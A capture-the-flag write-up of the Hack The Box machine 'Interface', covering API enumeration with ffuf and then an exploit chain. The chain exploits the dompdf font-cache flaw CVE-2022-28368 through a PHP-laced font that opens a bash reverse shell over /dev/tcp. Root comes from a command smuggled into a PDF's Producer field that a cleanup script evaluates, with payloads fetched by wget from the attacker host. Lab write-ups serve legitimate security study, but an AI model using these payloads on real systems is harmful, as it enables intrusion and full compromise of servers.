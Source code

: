 ```yaml
---
title: "Hack The Box - Interface [Medium]"
date: 2023-02-014T02:01:27+03:00
draft: false
description: 
---
```


The most important in this machine would be the enumeration, it exploits vulnerabilities like:
- [CVE-2022-28368](https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)
- [Executing files with sudo privileges](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)

## Recon 

I started with just the website `interface.htb` where there isn't much going on, from what I gathered I saw that it was a Next.js application, but the interesting thing there were the headers.

```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:44:41 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
X-Powered-By: Next.js
ETag: "i8ubiadkff4wf"
Vary: Accept-Encoding
Content-Length: 6359
```

I saw the CSP header which has a bunch of websites in, and frankly I didn't spot the subdomain at first, but that was the next pivoting point `http://prd.m.rendering-api.interface.htb`.

Going to the subdomain, you are greeted by a single `File not Found` text with a 404 status. Here comes the tricky part, the usual reconning using `ffuf,feroxbuster` and such, are ignoring the 404 status over the things it finds, and it's tricky to set something that is working for this particular case.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/common.txt -u http://prd.m.rendering-api.interface.htb/FUZZ -mc all -fs 0
```

I found several endpoints that are returning more than just 404.

```
api/experiments/configurations [Status: 404, Size: 50, Words: 3, Lines: 1...
api/experiments         [Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 
api                     [Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 
vendor                  [Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 
```

Using `curl`, I found some API responses over those endpoints.

```http
$ curl -i http://prd.m.rendering-api.interface.htb/api/                                  
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:53:49 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"status":"404","status_text":"route not defined"}
```

Then I began enumerating the API, by filtering the 404 using a GET request. 

The tricky thing is that you must try to use all the methods `GET,POST,PUT,DELETE` on everything. That could have been easier with `feroxbuster` but the thing is that on the `feroxbuster` tool there isn't an `-mc all` option which matches all the response codes and I had to do it manually with `ffuf`.

This is what I've used to find another pivot point.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/big.txt -u http://prd.m.rendering-api.interface.htb/api/FUZZ -mc all -fs 50 -X POST
...
html2pdf                [Status: 422, Size: 36, Words: 2, Lines: 1...
```

I found other stuff like `composer,dumpdf` before that and I started to search some exploits for `dumpdf` since I thought that would be the next pivot point and found this PoC of an exploit: https://github.com/positive-security/dompdf-rce.

The next thing to figure out was how to pass the file to that endpoint. While I tried to just send the file without any parameters, it returns `missing parameters` so I had to explore the `dompdf` implementations. The parameters that `dompdf` uses are just two. 

```php
$dompdf->loadHtml($html); 
$dompdf->setPaper('A4', 'landscape');
$dompdf->render();
```

I know that this is an API, so it must accept some JSON, so I crafted some random payload which I admit I got really lucky.

```json
{
	"html": "<h1>test</h1>",
	"paper": "A4"
}
```

Because the response was `200 OK` and a binary with the attached PDF.

## Exploiting the `dumpdf RCE`

The `dumpdf` is apparently caching the fonts that it processes during the conversion of HTML to PDF. It stores them under `/vendor/dompdf/dompdf/lib/fonts/` folder. Earlier in my discovery I enumerated another possible pivoting point that however gave 403, which was `/vendor/dompdf/dompdf` so following the PoC I've crafted the following payload.

```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/json
Connection: close
Content-Length: 47

{
	"html": "<link rel=stylesheet href='http://10.10.14.73:8000/syl.css'>",
	"paper": "A4"
}
```

```
# syl.css
@font-face {
    font-family:'syl';
    src:url('http://10.10.14.73:8000/syl.php');
    font-weight:'normal';
    font-style:'normal';
}
```

```
# syl.php, this is a legit font just with 1 line PHP on the bottom
<LEGIT FONT BINARY DATA>
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.73/4444 0>&1'"); ?>
```

After that I execute the request, the server would try to get the CSS and the font from my server, and it would cache the font into the specified folder and after executing the request. I saw that it does exactly that:

```
# My Server logs
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /syl.css HTTP/1.0" 200 -
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /syl.php HTTP/1.0" 200 -
```

That means that we have our 'font' already cached on the server under the folder `/vendor/dompdf/dompdf/lib/fonts/` however what would be the name, because trying to execute `syl.php` wasn't yielding results. 

To figure that out I thought it might be several things, `md5(file), md5(url of the font), some_hashing_algo(file/url of the font)` so I had to research how it saves the fonts. Fortunately, the PoC gives us a clue of how is this working. The font file there is named `exploitfont_normal_3f83639933428d70e74a061f39009622.php` and I brute forced my way out of this by trying `syl_normal_` and `md5(file), md5(url of the font)` and the URL of the font was the right one, so I got a reverse shell with that. 

```
$ curl -i http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/syl_normal_ee17d95350fea4e27875b56170439107.php
...
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.73] from (UNKNOWN) [10.129.20.249] 60822
pwd
/var/www/api/vendor/dompdf/dompdf/lib/fonts
```

With that and using `linpeas.sh` I could read the first flag which is located in `/home/dev/user.txt`.

## Gaining Root

This was a tricky one, and I got some help with it since I couldn't find how. I only found a script that was cleaning some cache files with the tag `Producer: dompdf` in the `/tmp` folder. The script is located here: `/usr/local/sbin/cleancache.sh`. I was pretty sure that this is the root pivot point, but I didn't know how to exploit it. 

I joined some discussions and one of the users mentioned the `# Bash’s white collar eval: [[ $var -eq 42 ]] runs arbitrary code too` - https://www.vidarholen.net/contents/blog/?p=716

I didn't know that you could do that, but after reading the article it was clear what I should do.

```
$ cd /tmp
$ mkdir syl
$ cd syl && wget http://10.10.14.73:8000/admin.sh
$ chmod +x ./admin.sh
$ wget http://10.10.14.73:8000/test.pdf
$ exiftool -Producer='a[$(/tmp/syl/admin.sh>&2)]+42' test.pdf
< -Producer='a[$(/tmp/syl/admin.sh>&2)]+42' test.pdf
    1 image files updated
$ /usr/local/sbin/cleancache.sh
/usr/local/sbin/cleancache.sh
chmod: changing permissions of '/bin/bash': Operation not permitted
chmod: changing permissions of '/bin/bash': Operation not permitted
$ /bin/bash -p
bash-4.4# cat /root/root.txt
```